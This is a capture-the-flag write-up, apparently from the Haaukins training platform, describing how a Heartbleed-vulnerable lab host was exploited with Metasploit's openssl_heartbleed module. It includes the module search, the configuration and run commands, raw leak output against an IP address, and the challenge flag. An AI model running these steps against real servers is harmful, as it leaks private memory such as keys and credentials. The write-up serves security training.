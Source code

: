 Metasploit has a quite intuitive exploit for Heartbleed, so this is the approach taken in order to find the flag. The Nmap result showed multiple hosts which could be vulnerable to the bug, because port 443 is open. Nmap does have a script for finding vulnerable hosts, but it is not present on the haaukins machine. Link: `https://nmap.org/nsedoc/scripts/ssl-heartbleed.html`.

*Exploiting with metasploit:*

in order to exploit the heartbleed bug, metasploit is used. Searching for "heartbleed" results in two different exploits: 

```bash
msf6 > search heartbleed

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
   1  auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak

```

When searching in metasploit, and an exploit fitting current needs is found, simply type "use #" where the hashtag is replaced with the number of the search result which is to be used. In this case: "use 1". After selecting the relevant exploit, it is possible to view the different parameters using the "info command".

- The ip is set for the host to be exploited: `set RHOSTS IP`
- Verbose is set to true, in order to view more information: `set verbose true`
- The exploit is executed using "run"

When running the exploit it returns the memory leak to the msfconsole instance where the flag is retrieved: `HKN{1JM-fuD-Ywxn}` (Flags are dynamic in haaukins).
If the RHOSTS is vulnerable the output will look as follows: 

```text
[*] 34.28.96.103:443      - Leaking heartbeat response #1
[*] 34.28.96.103:443      - Sending Client Hello...
[*] 34.28.96.103:443      - SSL record #1:
[*] 34.28.96.103:443      - 	Type:    22
[*] 34.28.96.103:443      - 	Version: 0x0301
[*] 34.28.96.103:443      - 	Length:  86
[*] 34.28.96.103:443      - 	Handshake #1:
[*] 34.28.96.103:443      - 		Length: 82
[*] 34.28.96.103:443      - 		Type:   Server Hello (2)
[*] 34.28.96.103:443      - 		Server Hello Version:           0x0301
[*] 34.28.96.103:443      - 		Server Hello random data:       cc258abc9a2d6d8e040ca76af7817c9fbb8eb655cf2e08fa83f15826237d0812
[*] 34.28.96.103:443      - 		Server Hello Session ID length: 32
[*] 34.28.96.103:443      - 		Server Hello Session ID:        5e3e496c753da88ca7adc17be04dc671290e24cb9d4d65dc903690a93676bdea
[*] 34.28.96.103:443      - SSL record #2:
[*] 34.28.96.103:443      - 	Type:    22
[*] 34.28.96.103:443      - 	Version: 0x0301
[*] 34.28.96.103:443      - 	Length:  817
[*] 34.28.96.103:443      - 	Handshake #1:
[*] 34.28.96.103:443      - 		Length: 813
[*] 34.28.96.103:443      - 		Type:   Certificate Data (11)
[*] 34.28.96.103:443      - 		Certificates length: 810
[*] 34.28.96.103:443      - 		Data length: 813
[*] 34.28.96.103:443      - 		Certificate #1:
[*] 34.28.96.103:443      - 			Certificate #1: Length: 807
```